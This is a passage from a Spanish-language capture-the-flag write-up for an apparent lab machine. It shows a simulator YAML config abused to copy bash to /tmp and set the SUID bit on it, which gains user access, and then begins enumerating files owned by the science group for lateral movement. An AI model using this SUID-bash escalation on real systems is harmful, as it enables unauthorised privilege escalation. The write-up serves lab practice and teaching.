 ```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```
Y depues de unos segundos en el directorio ```/tmp``` tendremos el binario bash con permisos SUID, solo ejecutamos y ya somos Juno, ah este punto ya tenemos la flag de user

## Movimiento lateral de Juno a Jovian

Si vemos a que grupos pertenece Juno, podemos ver que existe en el Science:

```
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

Si buscamos por acrhivos que pertenescan a ese grupo, encontramos varios de Jupyter

```
find / -type f -group science 2> /dev/null
```

```
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/mflares.csv
```